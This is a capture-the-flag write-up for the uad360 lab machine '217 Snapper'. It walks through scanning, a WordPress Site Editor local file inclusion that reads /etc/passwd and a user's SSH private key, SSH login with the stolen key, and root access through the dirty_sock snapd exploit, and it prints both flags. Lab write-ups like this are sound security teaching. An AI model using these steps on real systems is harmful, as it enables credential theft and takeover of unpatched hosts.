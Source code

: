 ```yaml
---
layout: post
title: 217 Snapper - uad360
author: devploit
item_image: https://i.imgur.com/zOPzzBc.png
tags: ctf uad360 boot2root lfi wordpress snap
---
```


### 0x01 Challenge:

**Level:** Easy-Medium

**Description:**

>**217 Snapper**
>
>Get user and root flags.
>author: torombolo

### 0x02 User write-up:

We start by scanning the IP to get active services.

```
nmap -sV -Pn -T5 192.168.105.111
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-14 09:15 BST
Nmap scan report for 192.168.105.111
Host is up (0.00041s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.34 ((Ubuntu))
MAC Address: 52:54:00:A8:CA:93 (QEMU virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.41 seconds
```

If we enum the web we will see interesting paths. The most prominent is the wordpress installed.

```
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/blog (Status: 301) ----------------------
/index.html (Status: 200)
/index.php (Status: 200)
/javascript (Status: 301)
/server-status (Status: 403)
```

The most logical way to perform is to do a first scan with wpscan, which will show us a LFI (local file inclusion) vulnerability.

```
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/9044
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - http://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
```

Basically, the vulnerability explains that by visiting a specific path we can list computer files. The path in question is: http://(HOST)/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=(FILE_TO_LIST). We will do the PoC with /etc/passwd.

![Branching](https://i.imgur.com/Gn0nTWm.png)

**It works!**

Now we can list the ssh private key of one of the users to be able to connect to the machine.

* User: masterblaster
* Path: /home/masterblaster/.ssh/id_rsa

![Branching](https://i.imgur.com/biFPnNZ.png)

If we copy the rsa key to our machine and try to connect using it... (Remember to give 600 permissions to the file).

```
➜  ~ ssh masterblaster@192.168.105.111 -i .ssh/snapper
The authenticity of host '192.168.105.111 (192.168.105.111)' can't be established.
ECDSA key fingerprint is SHA256:95id/6gGifLj0lHnpKkICP9wAeECnGU/SHstsKBQ1Vo.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.105.111' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.10 (GNU/Linux 4.18.0-20-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


239 packages can be updated.
2 updates are security updates.

Last login: Sat Jun  8 17:18:17 2019 from 192.168.1.110
masterblaster@masterblaster-Standard-PC-Q35-ICH9-2009:~$ ls
Desktop  Documents  Downloads  examples.desktop  flag.txt  Music  Pictures  Public  Templates  Videos
masterblaster@masterblaster-Standard-PC-Q35-ICH9-2009:~$ cat flag.txt
uad360{b2143fa23fcfb6145f1bc9cca80dcbab}
masterblaster@masterblaster-Standard-PC-Q35-ICH9-2009:~$ 
````

All right! We have user and the first flag

`User flag: uad360{b2143fa23fcfb6145f1bc9cca80dcbab}`



### 0x03 Root write-up:

To get the root flag, if we list enough we can see that the snap version is not the most recent (the name of the machine helps to realize).

```
masterblaster@masterblaster-Standard-PC-Q35-ICH9-2009:~$ snap --version
snap    2.35.5+18.10
snapd   2.35.5+18.10
series  16
ubuntu  18.10
kernel  4.18.0-20-generic
```

That particular version is vulnerable to local privilege escalation as we can see [here](https://www.exploit-db.com/exploits/46361). The instructions to follow for the exploitation are:

* Create an account at the https://login.ubuntu.com/.
* After confirming it, edit your profile and upload an SSH public key.
* Run the exploit specifying the private key associated with the public upload to the web.

As we have said, we created the account in the link and we will upload the ssh key to its corresponding section.

![Branching](https://i.imgur.com/IJAtcD6.png)

In order to avoiding upload our personal ssh key for obvious reasons, we created a new one in a linux as we see here:

```
➜  /tmp ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): /root/.ssh/snapper_root
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/.ssh/snapper_root.
Your public key has been saved in /root/.ssh/snapper_root.pub.
The key fingerprint is:
SHA256:hRkMNEgC26et0GnVyhmW0MPGzZDZdPNUs8MFlgYXcF0 root@kali
The key's randomart image is:
+---[RSA 2048]----+
|..o=o@=o+ ++O=..E|
| o oXo+o.B =o+.  |
|. ..*.. o o.+    |
| . O +   .   .   |
|. = =   S        |
| o .             |
|  .              |
|                 |
|                 |
+----[SHA256]-----+
```

We upload the generated public key. We pass the exploit and the private key to the vulnerable machine and launch it by specifying the key and the account mail.

```
masterblaster@masterblaster-Standard-PC-Q35-ICH9-2009:/dev/shm$ python3 snapd.py -u sugomum@uber-mail.com -k snapper_root

      ___  _ ____ ___ _   _     ____ ____ ____ _  _ 
      |  \ | |__/  |   \_/      [__  |  | |    |_/  
      |__/ | |  \  |    |   ___ ___] |__| |___ | \_ 
                       (version 1)

//=========[]==========================================\\
|| R&D     || initstring (@init_string)                ||
|| Source  || https://github.com/initstring/dirty_sock ||
|| Details || https://initblog.com/2019/dirty-sock     ||
\\=========[]==========================================//


[+] Slipped dirty sock on random socket file: /tmp/bgsfawbofu;uid=0;
[+] Binding to socket file...
[+] Connecting to snapd API...
[+] Sending payload...
[+] Success! Enjoy your new account with sudo rights!
Welcome to Ubuntu 18.10 (GNU/Linux 4.18.0-20-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


239 packages can be updated.
2 updates are security updates.

New release '19.04' available.
Run 'do-release-upgrade' to upgrade to it.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

r00tdevploit@masterblaster-Standard-PC-Q35-ICH9-2009:~$ id
uid=1001(r00tdevploit) gid=1001(r00tdevploit) groups=1001(r00tdevploit)
r00tdevploit@masterblaster-Standard-PC-Q35-ICH9-2009:~$ sudo -s
root@masterblaster-Standard-PC-Q35-ICH9-2009:~# GGWP
```

**We got root shell!**

Finally we visit the path where the flag is.

```
root@masterblaster-Standard-PC-Q35-ICH9-2009:/root# cat flag.txt
uad360{fb9bf208b033aee53a16a5255b3b3039}
```

`Root flag: uad360{fb9bf208b033aee53a16a5255b3b3039}`
